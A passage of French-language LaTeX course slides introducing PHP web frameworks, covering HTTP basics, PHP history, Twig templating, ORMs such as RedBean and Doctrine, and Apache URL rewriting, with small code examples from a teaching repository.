http://app.host.tld/controller/action[/key/val]
\end{verbatim}

\end{english}

\begin{itemize}
\tightlist
\item
  Le routage (routing)

  \begin{itemize}
  \tightlist
  \item
    Le Front Controller recoit toutes les requêtes (URL rewriting)
  \item
    Il les dispatche vers les contrôleurs
  \end{itemize}
\end{itemize}

\hypertarget{smart-url-seo}{%
\section{Smart URL \& SEO}\label{smart-url-seo}}

\begin{figure}
\centering

\includegraphics{src/img/anatomy-of-a-url.jpg}
\caption{SEO}
\end{figure}

\hypertarget{autres-services}{%
\section{Autres Services}\label{autres-services}}

\begin{itemize}
\tightlist
\item
  Migrations : Evolutions de la strucutre de la BDD
\item
  Tests
\item
  Génération, validation et traitement de formulaires
\item
  Authenfication, Sessions, Permissions, Roles, ACL
\item
  Pagination
\item
  I18n
\item
  Génération de code
\item
  Mail
\item
  Connecteurs aux webservices
\item
  Captchas
\item
  Loggers
\item
  \ldots{}
\end{itemize}

\hypertarget{exemple-darchitecture-laravel}{%
\section{Exemple d'architecture :
Laravel}\label{exemple-darchitecture-laravel}}

\begin{figure}
\centering

\includegraphics{src/img/laravel-architecture.jpg}
\caption{Archi}
\end{figure}

Ce schéma est clair mais pas tout à fait juste : dans Laravel, le
contrôleur récupère la page générée à partir de la vue, et c'est lui qui
renvoie le HTML (objet Response) au client.

\hypertarget{performance}{%
\section{Performance}\label{performance}}

\begin{itemize}
\tightlist
\item
  Un framework web est lent :

  \begin{itemize}
  \tightlist
  \item
    Rendu d'une page nécéssite de traverser tout le code
  \item
    Pour chaque requête toute l'appli est chargée
  \item
    Plus de code qu'une appli standalone
  \item
    Plus de requêtes
  \end{itemize}
\item
  Solutions

  \begin{itemize}
  \tightlist
  \item
    Cache de pages, d'opcode
  \item
    Jointures ORM, vues, procédures stockées
  \item
    Outils d'optimisation : YSlow, page speed, mytop
  \end{itemize}
\end{itemize}

\hypertarget{frameworks-php}{%
\section{Frameworks PHP}\label{frameworks-php}}

\begin{itemize}
\tightlist
\item
  Lesquels connaissez-vous?
\item
  Lesquels avez-vous utilisé?
\item
  Pourquoi y en a-t-il tant?
\end{itemize}

L'explication donnée par Joe Gregorio pour
\href{http://bitworking.org/news/Why_so_many_Python_web_frameworks}{le
langage Python} est : « parce que c'est facile. »

Dans les faits, cela montre également une maturité de la plateforme.

\begin{quote}
\emph{There are people who actually like programming. I don't understand
why they like programming.} Rasmus Lerdorf
\href{https://en.wikiquote.org/wiki/Rasmus_Lerdorf}{💬}
\end{quote}

\begin{itemize}
\tightlist
\item
  PHP-FI \emph{Forms Interpreter}
\item
  PHP 3, réécrit en C++
\item
  PHP 4 \emph{Zend Engine}, fausse POO
\item
  PHP 5, vraie POO
\item
  PHP 5.1, PDO
\item
  PHP 5.2, JSON
\item
  PHP 5.3, \textenglish{\texttt{goto}} et
  \textenglish{\texttt{namespace}}
\item
  PHP 5.4, \textenglish{\texttt{{[}{]}}} et \textenglish{\texttt{trait}}
\item
  PHP 5.5, \textenglish{\texttt{yield}}
\item
  \sout{PHP 6, Unicode} 💩, 🎃, 🐧
\item
  PHP 7, que du rêve!
\item
  PHP 8, JIT compilation,
  \href{https://kinsta.com/fr/blog/php-8/}{\ldots{}}
\end{itemize}

Il y a plus de vingt ans, Rasmus Lerdorf bricola un outil pour savoir
qui consultait son CV.

Zend, c'est à dire \emph{ZEev} et \emph{aNDi}, ont réécrit PHP et qui
allait devenir PHP 3 le précurseur du langage de prédilection pour créer
sur le web.

PHP a évolué depuis pour devenir ce qu'il est aujourd'hui. Sa popularité
est liée au fait qu'il est simple à mettre en œuvre, gratuit \textbf{et}
libre. Tout un tas de modules est fourni avec pour faire de l'imagerie,
des bases de données, du XML, etc.

Et plus encore sur la page
\href{http://php.net/manual/en/history.php.php}{History of PHP} et
\href{https://en.wikipedia.org/wiki/PHP}{Wikipedia: PHP}.

Les différentes moutures de PHP 7 offrent ceci, entre autres.

\begin{itemize}
\tightlist
\item
  PHP 7, performances
\item
  PHP 7.1, \textenglish{\texttt{void}}
\item
  PHP 7.2, sodium
\end{itemize}

\begin{figure}
\centering

\includegraphics{src/img/phpfig.png}
\caption{PHP Framework Interop Group}
\end{figure}

L'évolution de PHP a fait que les usagers du langage, créateur de
\emph{frameworks}, d'outils (comme
\href{http://getcomposer.org/}{\emph{Composer}}), ont senti le besoin
d'émettre des recommendations afin d'aller vers un plus interopérable.

Durant ce cours, nous allons vous embêter avec PSR-1, PSR-2 et PSR-4.

\hypertarget{quiz}{%
\section{Quiz}\label{quiz}}

Qui est qui?

\begin{figure}
\centering

\includegraphics{src/img/GandalfStaff5.jpg}
\caption{\href{http://hero.wikia.com/wiki/Gandalf}{source}}
\end{figure}

oOops, ceci n'a rien à voir avec le cours.


\includegraphics{src/img/0O4A8746-large.jpg}(1)

Donc, ce ne sont pas Gandalf (sans sa barbe) et Saruman mais bien Sir
Tim Berners-Lee et Vinton Cerf, responsables du (World Wide) Web et de
l'Internet.

\hypertarget{quest-ce-quinternetitcrowd}{%
\subsection{\texorpdfstring{Qu'est-ce
qu'\href{https://www.youtube.com/watch?v=iDbyYGrswtg}{Internet}
?}{Qu'est-ce qu'Internet ?}}\label{quest-ce-quinternetitcrowd}}

\begin{itemize}
\tightlist
\item
  un réseau IP
\end{itemize}

\hypertarget{quest-ce-que-le-world-wide-web}{%
\subsection{Qu'est-ce que le World Wide Web
?}\label{quest-ce-que-le-world-wide-web}}

\begin{itemize}
\tightlist
\item
  \textbf{URI/URL}, des identifiants uniques
\item
  \textbf{HTML}, un langage de publication
\item
  \textbf{HTTP}, un protocole d'échange de texte (ou \emph{HyperText})
\end{itemize}

\hypertarget{pruxe9paratifs}{%
\section{Préparatifs}\label{pruxe9paratifs}}

\href{https://github.com/HE-Arc/php-intro-framework}{https://github.com/HE-Arc/php-intro-framework/}

\begin{english}

\begin{verbatim}
$ sudo systemctl start httpd
$ cd /var/www/html
$ git clone \
> https://github.com/\
> HE-Arc/php-intro-framework

$ cd php-intro-framework
$ open http://localhost/php-intro-framework
\end{verbatim}

\end{english}

Les exemples suivant travaillent sur le code disponible dans le dépôt
\href{https://github.com/HE-Arc/php-intro-framework}{HE-Arc/php-intro-framework}.

\begin{english}

\begin{verbatim}
$ curl -v "http://he-arc.ch/?id=25"
> GET /?id=25 HTTP/1.1
> Host: he-arc.ch
>
< HTTP/1.1 200 OK
< Content-Type: text/html; charset=utf-8
<
\end{verbatim}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\DataTypeTok{\textless{}!DOCTYPE }\NormalTok{html}\DataTypeTok{\textgreater{}}
\KeywordTok{\textless{}title\textgreater{}}\NormalTok{HE{-}Arc}\KeywordTok{\textless{}/title\textgreater{}}
\KeywordTok{\textless{}p\textgreater{}}\NormalTok{Hello}
\end{Highlighting}
\end{Shaded}

\end{english}

HTTP est un protocole texte plutôt simple, jugez plutôt:

Ce que nous voyons est une connexion TCP/IP au serveur
\textenglish{\texttt{he-arc.ch}}. Une fois la connexion établie, il
envoie en texte ASCII les entêtes HTTP puis deux retours à la ligne (ce
qui correspond à une ligne vide). La requête HTTP commencent toujours
par la demande, ici
\textenglish{\texttt{GET\ /index.php?page=equipe\&id=25\ HTTP/1.1}} puis
les entêtes, ici: \textenglish{\texttt{Host:\ www.he-arc.ch}}. La
réponse du serveur est du même type, le code de réponse
(\textenglish{\texttt{HTTP/1.1\ 200\ OK}}), les entêtes, une ligne vide
puis le contenu.

La demande et les entêtes sont en US-ASCII mais le corps peut être
encodé autrement, ici c'est dit dans l'entête
\textenglish{\texttt{Content-Type:\ text/html;\ charset=utf-8}}.

\hypertarget{fait-1}{%
\subsection{Fait \#1}\label{fait-1}}

PHP parle HTTP.

Le fichier \textenglish{\texttt{index.php}} est le code PHP le plus
simple qui soit. Simple au sens du niveau de compréhension de PHP et
d'une forme de complexité.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?php} \CommentTok{// 00{-}base}

\CommentTok{// Lecture de la query string \textasciigrave{}page=\textless{}XX\textgreater{}\&id=\textless{}YY\textgreater{}\textasciigrave{}.}
\KeywordTok{$page}\NormalTok{ = }\KeywordTok{$\_GET}\OtherTok{[}\StringTok{"page"}\OtherTok{]} \OtherTok{??} \KeywordTok{null}\OtherTok{;}
\KeywordTok{$id}\NormalTok{ = }\DataTypeTok{(int)} \OtherTok{(}\KeywordTok{$\_GET}\OtherTok{[}\StringTok{"id"}\OtherTok{]} \OtherTok{??} \DecValTok{0}\OtherTok{);}

\CommentTok{// Connexion à la base de données.}
\KeywordTok{$db}\NormalTok{ = }\KeywordTok{new} \KeywordTok{PDO}\OtherTok{(}\StringTok{"sqlite:../users.db"}\OtherTok{);}

\CommentTok{// Page HTML}
\KeywordTok{?\textgreater{}}
\NormalTok{\textless{}!}\KeywordTok{DOCTYPE}\NormalTok{ html\textgreater{}}
\NormalTok{\textless{}meta charset=utf}\DecValTok{{-}8}\NormalTok{\textgreater{}}
\NormalTok{\textless{}title\textgreater{}}\KeywordTok{HE}\NormalTok{{-}Arc\textless{}/title\textgreater{}}
\NormalTok{\textless{}}\OtherTok{?}\NormalTok{php}
\CommentTok{// Contenu}
\KeywordTok{if} \OtherTok{(}\StringTok{"equipe"}\NormalTok{ === }\KeywordTok{$page}\OtherTok{):}
    \KeywordTok{$query}\NormalTok{ = }\KeywordTok{$db}\NormalTok{{-}\textgreater{}query}\OtherTok{(}\StringTok{"SELECT * FROM \textasciigrave{}personnes\textasciigrave{} WHERE \textasciigrave{}id\textasciigrave{} = :id;"}\OtherTok{);}
    \KeywordTok{$query}\NormalTok{{-}\textgreater{}execute}\OtherTok{(}\NormalTok{compact}\OtherTok{(}\StringTok{\textquotesingle{}id\textquotesingle{}}\OtherTok{));}

    \KeywordTok{$personne}\NormalTok{ = }\KeywordTok{$query}\NormalTok{{-}\textgreater{}fetch}\OtherTok{(}\KeywordTok{PDO}\NormalTok{::}\KeywordTok{FETCH\_OBJ}\OtherTok{);}
\KeywordTok{?\textgreater{}}
\NormalTok{    \textless{}p\textgreater{}\textless{}a href=}\StringTok{"\textless{}?php echo }\KeywordTok{$\_SERVER}\StringTok{["}\KeywordTok{PHP\_SELF}\StringTok{"] ?\textgreater{}"}\NormalTok{\textgreater{}retour\textless{}/a\textgreater{}}
\NormalTok{    \textless{}h1\textgreater{}Équipe\textless{}/h1\textgreater{}}
\NormalTok{    \textless{}h2\textgreater{}}
\NormalTok{        \textless{}}\OtherTok{?}\NormalTok{php }\KeywordTok{echo} \KeywordTok{$personne}\NormalTok{{-}\textgreater{}prenom }\KeywordTok{?\textgreater{}}
\NormalTok{        \textless{}}\OtherTok{?}\NormalTok{php }\KeywordTok{echo} \KeywordTok{$personne}\NormalTok{{-}\textgreater{}nom }\KeywordTok{?\textgreater{}}
\NormalTok{    \textless{}/h2\textgreater{}}
\NormalTok{    \textless{}p\textgreater{}}
\NormalTok{        \textless{}img src=}\StringTok{"//www.gravatar.com/avatar/\textless{}?php}
\StringTok{            echo md5(strtolower(}\KeywordTok{$personne}\StringTok{{-}\textgreater{}email));}
\StringTok{        ?\textgreater{}"}\NormalTok{ alt=}\StringTok{"avatar"}\NormalTok{\textgreater{}}
\NormalTok{\textless{}}\OtherTok{?}\NormalTok{php}
\KeywordTok{else}\OtherTok{:}
\KeywordTok{?\textgreater{}}
\NormalTok{    \textless{}h1\textgreater{}Accueil\textless{}/h1\textgreater{}}
\NormalTok{    \textless{}ul\textgreater{}}
\NormalTok{        \textless{}li\textgreater{}\textless{}a href=}\StringTok{"?page=equipe\&amp;id=1"}\NormalTok{\textgreater{}Yoan Blanc\textless{}/a\textgreater{}}
\NormalTok{        \textless{}li\textgreater{}\textless{}a href=}\StringTok{"?page=equipe\&amp;id=2"}\NormalTok{\textgreater{}Yoan Blanc\textless{}/a\textgreater{}}
\NormalTok{    \textless{}/ul\textgreater{}}
\NormalTok{\textless{}}\OtherTok{?}\NormalTok{php}
\KeywordTok{endif}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{fait-2}{%
\subsection{Fait \#2}\label{fait-2}}

PHP \textbf{est} un langage de template.

Pour preuve, il faut ouvrir une balise
\textenglish{\texttt{\textless{}?php}} pour commencer la partie code.

Avec la pratique, on a réalisé que mélanger la logique métier et celle
d'affichage n'est pas optimal car difficile à lire et maintenir.

\hypertarget{suxe9paration-muxe9tieraffichage}{%
\section{Séparation
métier/affichage}\label{suxe9paration-muxe9tieraffichage}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?php} \CommentTok{// 01{-}includes/index.php}

\CommentTok{// ...}

\KeywordTok{include} \StringTok{"templates/entete.html"}\OtherTok{;}

\KeywordTok{if} \OtherTok{(}\StringTok{"equipe"}\NormalTok{ === }\KeywordTok{$\_GET}\OtherTok{[}\StringTok{"page"}\OtherTok{])}\NormalTok{ \{}
    \CommentTok{// SELECT FROM u WHERE id=$\_GET["id"]}
    \CommentTok{// ...}
    \KeywordTok{include} \StringTok{"templates/equipe.html"}\OtherTok{;}
\NormalTok{\} }\KeywordTok{else}\NormalTok{ \{}
    \CommentTok{// ...}
    \KeywordTok{include} \StringTok{"templates/accueil.html"}\OtherTok{;}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}


\includegraphics{src/img/meme10.jpg}

Quel est le problème avec cette solution?

(\href{https://raw.githubusercontent.com/cyrilmanuel/picbot/e6ff24a8bfd7ee9f0514a4fd8f49b1255ef26178/picbot/Images/meme10.jpg}{Source
de l'image})

\hypertarget{suxe9curituxe9-des-templates}{%
\section{Sécurité des templates}\label{suxe9curituxe9-des-templates}}

\begin{itemize}
\tightlist
\item
  \emph{Principle of Least Privilege} (
  \href{https://en.wikipedia.org/wiki/Principle_of_least_privilege}{polp}
  )
\item
  Intégration faite par un graphiste, société externe
\end{itemize}

Dans ce le cas présent rien ne nous empêche de mettre de la logique
métier dans nos fichiers de \emph{template}, car ils sont faits de PHP
eux aussi.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\{\# 02{-}twig/templates/collaborateur.html \#\}}
\NormalTok{\{\%{-} extends "base.html" {-}\%\}}

\NormalTok{\{\% block corps {-}\%\}}
\KeywordTok{\textless{}p\textgreater{}\textless{}a}\OtherTok{ href=}\StringTok{"?"}\KeywordTok{\textgreater{}}\NormalTok{retour}\KeywordTok{\textless{}/a\textgreater{}}
\KeywordTok{\textless{}h1\textgreater{}}\NormalTok{Équipe}\KeywordTok{\textless{}/h1\textgreater{}}
\KeywordTok{\textless{}h2\textgreater{}}
\NormalTok{  \{\{{-} personne.prenom {-}\}\}}
\NormalTok{  \{\{ personne.nom {-}\}\}}
\KeywordTok{\textless{}/h2\textgreater{}}
\KeywordTok{\textless{}p\textgreater{}\textless{}img}
\OtherTok{  src=}\StringTok{"//www.gravatar.com/avatar/}
\StringTok{  \{\{{-} personne.email | strtolower | md5 \}\}"}
\OtherTok{  alt=}\StringTok{"avatar"}\KeywordTok{\textgreater{}}
\NormalTok{\{\% endblock {-}\%\}}
\end{Highlighting}
\end{Shaded}

\end{english}

La page est réalisée avec \href{http://twig.sensiolabs.org/}{Twig}
\textless2.0. À partir de la version 2.0, il faut utiliser un
\emph{autoloader} externe, comme celui de composer (voir ci-dessous).

Le code est un poil plus propre du côté de nos \emph{templates} qui ne
peuvent plus exécuter de PHP sauf ce qu'on leur autorise, ici
\textenglish{\texttt{md5}} et \textenglish{\texttt{strtolower}}. Voir
\href{02-twig/index.php}{\textenglish{\texttt{02-twig/index.php}}}.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?php} \CommentTok{// 02{-}twig}

\KeywordTok{require\_once} \StringTok{\textquotesingle{}Twig/lib/Twig/Autoloader.php\textquotesingle{}}\OtherTok{;}
\NormalTok{Twig\_Autoloader::register}\OtherTok{();}

\CommentTok{// ...}

\CommentTok{// Configuration de Twig}
\KeywordTok{$loader}\NormalTok{ = }\KeywordTok{new}\NormalTok{ Twig\_Loader\_FileSystem}\OtherTok{(}\StringTok{"templates"}\OtherTok{);}
\KeywordTok{$twig}\NormalTok{ = }\KeywordTok{new}\NormalTok{ Twig\_Environment}\OtherTok{(}\KeywordTok{$loader}\OtherTok{);}

\CommentTok{// Ajout des filtres md5 et strtolower qui sont les fonctions PHP du même nom.}
\KeywordTok{$twig}\NormalTok{{-}\textgreater{}addFilter}\OtherTok{(}\KeywordTok{new}\NormalTok{ Twig\_SimpleFilter}\OtherTok{(}\StringTok{\textquotesingle{}strtolower\textquotesingle{}}\OtherTok{,} \StringTok{\textquotesingle{}strtolower\textquotesingle{}}\OtherTok{));}
\KeywordTok{$twig}\NormalTok{{-}\textgreater{}addFilter}\OtherTok{(}\KeywordTok{new}\NormalTok{ Twig\_SimpleFilter}\OtherTok{(}\StringTok{\textquotesingle{}md5\textquotesingle{}}\OtherTok{,} \StringTok{\textquotesingle{}md5\textquotesingle{}}\OtherTok{));}

\CommentTok{// variable globale}
\KeywordTok{$titre}\NormalTok{ = }\StringTok{"HE{-}Arc"}\OtherTok{;}

\CommentTok{// Contenu}
\KeywordTok{if} \OtherTok{(}\StringTok{"equipe"}\NormalTok{ === }\KeywordTok{$page}\OtherTok{)}\NormalTok{ \{}
    \CommentTok{// ...}
    \KeywordTok{$personne}\NormalTok{ = }\CommentTok{// ...}

    \KeywordTok{echo} \KeywordTok{$twig}\NormalTok{{-}\textgreater{}render}\OtherTok{(}\StringTok{"equipe.html"}\OtherTok{,}\NormalTok{ compact}\OtherTok{(}\StringTok{"titre"}\OtherTok{,} \StringTok{"personne"}\OtherTok{));}
\NormalTok{\} }\KeywordTok{else}\NormalTok{ \{}
    \KeywordTok{$personnes}\NormalTok{ = }\CommentTok{// ...}

    \KeywordTok{echo} \KeywordTok{$twig}\NormalTok{{-}\textgreater{}render}\OtherTok{(}\StringTok{"accueil.html"}\OtherTok{,}\NormalTok{ compact}\OtherTok{(}\StringTok{"titre"}\OtherTok{,} \StringTok{"personnes"}\OtherTok{));}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}


\includegraphics{src/img/exploits_of_a_mom.png} Problème d'injection
SQL.

Effectuer des requêtes MySQL à la main ou devoir connaitre tous les
champs crée beaucoup de redondance et de failles de sécurité
potentielles.

Une solution est d'ajouter une couche d'abstraction qui va cacher la
structure réelle de notre base de données et offrir une interface
orientée objet. Un \emph{Object-Relational Mapping} ou ORM(3) dans le
jargon.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]

\KeywordTok{\textless{}?php}
\CommentTok{// Ne dites plus}
\KeywordTok{$query}\NormalTok{ = }\KeywordTok{$db}\NormalTok{{-}\textgreater{}query}\OtherTok{(}
  \StringTok{"SELECT * FROM \textasciigrave{}personnes\textasciigrave{} "}\NormalTok{.}
  \StringTok{"WHERE \textasciigrave{}id\textasciigrave{} = :id;"}
\OtherTok{);}
\KeywordTok{$query}\NormalTok{{-}\textgreater{}execute}\OtherTok{(}\NormalTok{compact}\OtherTok{(}\StringTok{\textquotesingle{}id\textquotesingle{}}\OtherTok{));}
\KeywordTok{$personne}\NormalTok{ = }\KeywordTok{$query}\NormalTok{{-}\textgreater{}fetch}\OtherTok{(}\KeywordTok{PDO}\NormalTok{::}\KeywordTok{FETCH\_OBJ}\OtherTok{);}

\CommentTok{// Mais dites plutôt}

\CommentTok{//  RedBean}
\KeywordTok{$personne}\NormalTok{ = }\KeywordTok{R}\NormalTok{::load}\OtherTok{(}\StringTok{\textquotesingle{}personnes\textquotesingle{}}\OtherTok{,} \KeywordTok{$id}\OtherTok{);}
\CommentTok{// ou Doctrine}
\KeywordTok{$personne}\NormalTok{ = }\KeywordTok{$om}\NormalTok{{-}\textgreater{}find}\OtherTok{(}\StringTok{\textquotesingle{}Personne\textquotesingle{}}\OtherTok{,} \KeywordTok{$id}\OtherTok{);}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{object-relational-mapping}{%
\section{\texorpdfstring{\emph{Object-Relational
Mapping}}{Object-Relational Mapping}}\label{object-relational-mapping}}

\begin{itemize}
\tightlist
\item
  \href{http://www.redbeanphp.com/}{RedBean}
\item
  \href{http://www.doctrine-project.org/}{Doctrine} (ORM, ODM)
\item
  \href{http://laravel.com/docs/master/eloquent}{Eloquent ORM}
\item
  \href{https://en.wikipedia.org/wiki/List_of_object-relational_mapping_software\#PHP}{etc.}
\end{itemize}

Une bibliothèque qui va créer ce lien entre les mondes objet et
relationnel ou document (généralement MongoDB). Il en existe toute une
foule.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?php} \CommentTok{// 03{-}redbean/index.php}
\KeywordTok{require} \StringTok{\textquotesingle{}RedBean/rb.php\textquotesingle{}}\OtherTok{;}
\KeywordTok{R}\NormalTok{::setup}\OtherTok{(}\StringTok{"sqlite:../users.db"}\OtherTok{);}
\CommentTok{// ...}
\KeywordTok{if} \OtherTok{(}\StringTok{"equipe"}\NormalTok{ === }\KeywordTok{$page}\OtherTok{)}\NormalTok{ \{}
    \KeywordTok{$personne}\NormalTok{ = }\KeywordTok{R}\NormalTok{::load}\OtherTok{(}\StringTok{"personnes"}\OtherTok{,} \KeywordTok{$id}\OtherTok{);}
    \KeywordTok{echo} \KeywordTok{$twig}\NormalTok{{-}\textgreater{}render}\OtherTok{(}
        \StringTok{"equipe.html"}\OtherTok{,}
\NormalTok{        compact}\OtherTok{(}\StringTok{"titre"}\OtherTok{,} \StringTok{"personne"}\OtherTok{)}
    \OtherTok{);}
\NormalTok{\} }\KeywordTok{else}\NormalTok{ \{}
    \KeywordTok{$personnes}\NormalTok{ = }\KeywordTok{R}\NormalTok{::find}\OtherTok{(}\StringTok{"personnes"}\OtherTok{);}
    \KeywordTok{echo} \KeywordTok{$twig}\NormalTok{{-}\textgreater{}render}\OtherTok{(}
        \StringTok{"accueil.html"}\OtherTok{,}
\NormalTok{        compact}\OtherTok{(}\StringTok{"titre"}\OtherTok{,} \StringTok{"personnes"}\OtherTok{)}
    \OtherTok{);}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{uri-as-ui}{%
\section{URI as UI}\label{uri-as-ui}}

Pensez à Wikipedia.

Les adresses des pages font partie de l'expérience utilisateur. Un
utilisateur doit être capable d'imaginer le contenu de la page en lisant
l'URI. Certainement, ce que vous faites avant de cliquer sur un lien.

\hypertarget{comment-humaniser}{%
\subsection{Comment humaniser ?}\label{comment-humaniser}}

\begin{english}

\begin{verbatim}
  /index.php?page=equipe&id=42
\end{verbatim}

\end{english}

La personne avec l'identifiant \textenglish{\texttt{42}} aura également
un \emph{slug} unique créé à partir de son nom, ici
\textenglish{\texttt{jean-bon}}.

La solution à notre problème est de demander au serveur web de réécrire
les URL pour nous.

\hypertarget{ruxe9uxe9criture-durl}{%
\subsection{Réécriture d'URL}\label{ruxe9uxe9criture-durl}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# 04{-}routes/.htaccess}

\CommentTok{\# mod\_rewrite}
\ExtensionTok{RewriteEngine}\CharTok{ }\KeywordTok{on}
\NormalTok{RewriteBase}\StringTok{ /php{-}intro{-}framework/04{-}routes/}

\NormalTok{RewriteCond}\StringTok{ \%\{REQUEST\_FILENAME\} !{-}f}
\NormalTok{RewriteCond}\StringTok{ \%\{REQUEST\_FILENAME\} !{-}d}
\NormalTok{RewriteRule}\StringTok{ \^{}(.*)$ index.php/$1 [L,QSA]}
\end{Highlighting}
\end{Shaded}

\end{english}

Apache le fait via
\href{https://httpd.apache.org/docs/current/mod/mod_rewrite.html}{\textenglish{\texttt{mod\_rewrite}}}
et Nginx
\href{http://nginx.org/en/docs/http/ngx_http_core_module.html\#try_files}{\textenglish{\texttt{try\_files}}}.

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]

\CommentTok{// 04{-}routes/index.php}

